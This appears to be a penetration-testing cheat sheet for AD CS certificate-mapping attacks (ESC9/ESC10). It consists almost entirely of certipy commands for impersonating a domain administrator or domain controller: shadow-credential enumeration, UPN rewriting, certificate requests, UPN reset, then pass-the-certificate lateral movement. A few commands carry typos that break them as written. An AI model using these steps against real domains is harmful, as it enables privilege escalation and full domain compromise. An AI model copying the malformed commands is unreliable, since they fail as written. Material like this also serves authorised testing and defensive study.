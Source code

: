 # No Security Extension \ Weak Certificate Mappings - ESC9\ESC10

## Enumeration

 - certipy shadow auto -username ACCOUNT1@DOMAIN -p PASS1 -account ACCOUNT2 (Blind Test)

## Exploitation

#### 1) Case 1

 - certipy account update -username ACCOUNT1@DOMAIN -password PASS1 -userACCOUNT2 -upn Administrator

 - certipy req -username ACCOUNT2@DOMAIN -hashes HASH2 -ca CA_NAME -template VULNERABLE_TEMPLATE (ESC9)

## OR

 - certipy req -username ACCOUNT2@DOMAIN hashes HASH2 -ca CA_NAME -template ANY_TEMPLATE_WITH_CLIENT_AUTH

#### 2) Case 2

 - certipy account update -username ACCOUNT1@DOMAIN -password PASS1 -user ACCOUNT2 -upn 'DC_NAME$@DOMAIN'

 - certipy req -username ACCOUNT2@DOMAIN hashes HASH2 -ca CA_NAME -template ANY_TEMPLATE_WITH_CLIENT_AUTH

# Reset ACCOUNT2 UPN (This applies to both cases from now on)

 - certipy account update -username ACCOUNT1@DOMAIN -password PASS1 -user ACCOUNT2 -upn ACCOUNT2@DOMAIN

## Kerberos Mapping (Case 1) and Schannel Mapping (Case 2)

### Now we move laterally with Pass the Certificate
